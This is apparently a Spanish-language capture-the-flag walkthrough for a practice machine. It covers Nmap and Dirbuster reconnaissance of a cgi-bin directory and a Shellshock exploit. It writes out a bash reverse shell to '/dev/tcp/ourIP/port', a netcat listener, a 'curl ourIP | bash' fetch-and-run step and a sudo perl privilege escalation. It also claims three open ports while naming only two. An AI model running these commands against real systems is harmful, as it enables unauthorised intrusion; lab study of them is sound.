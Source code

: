 Haciendo un reconocimiento con [[Nmap]], veremos que encontramos 3 puertos abiertos: el 80 y el 2222. Por lo general, usaremos el puerto 80.

Para obtener información del servidor (abierto en el puerto 80), usamos el comando `what web`:

> `whatweb ipMachine`

Para ver a cuáles directorios podemos acceder desde esta web, usaremos la aplicación **[[Dirbuster]]**:

1. Insertamos la URL (http://ip:port).

2. Ponemos 50 hilos.

3. En "FIle with the list of dirs/files", buscamos con "browse" y elegimos el siguiente path: "/usr/share/wordlists/dirbuster/**medium**" (casi siempre escogeremos el medium), y le damos a Start.
 
4. En esta máquina, encontramos el directorio "cgi-bin"... Si investigamos sobre este directorio, veremos que es una vulnerabilidad que podemos explotar, y que dentro de este encontramos archivos binarios.
 
5. Si hacemos otra búsqueda con [[Dirbuster]], pero lo configuramos para que empiece por "/cgi-bin" y que busque archivos "sh, py", nos dará los archivos binarios que podremos ejecutar ([[Reverse_shell]]).
 
6. Ahora que sabemos que podemos hacer reverse shell, buscamos en github el repositorio de "[[shellshock]]" y buscamos la línea que nos permita entrar en el sistema.
 
7.  Con la línea de código en la terminal, cambiamos primero la parte de la ip y la del nombre del archivo binario ejecutable.
 
8. En lo de "/bin/bash" podremos ejecutar el comando siguiente que nos salga a esto, podemos poner un whoami y ver lo que ocurre... ¡Funciona! Pues vamos a conseguir entrar:
 
9. Creamos un archivo llamado "[[index.html]]" (por ejemplo), y escribimos lo siguiente de código:

> `#!/bin/bash`
> [[bash -i >& /dev/tcp/ourIP/port 0>&1]]

10. Nos abrimos un servidor web con python en el sitio en el que tengamos este archivo.

11. Nos ponemos en escucha en el puerto en el que hemos puesto en el "[[index.html]]":

> [[sudo nc -nlvp port]]

12. En el código ejecutable, cambiaremos el código ejecutable por el siguiente:

> [[curl ourIP | bash]]

13. Ya estamos dentro, pero ahora nos falta escalar privilegios:

Usamos el comando `sudo -l`

Hacemos `sudo /usr/bin/perl -e 'exec "/bin"bash'`

Ahora `script /dev/null -c bash`
>[[script /dev/null -c bash]]



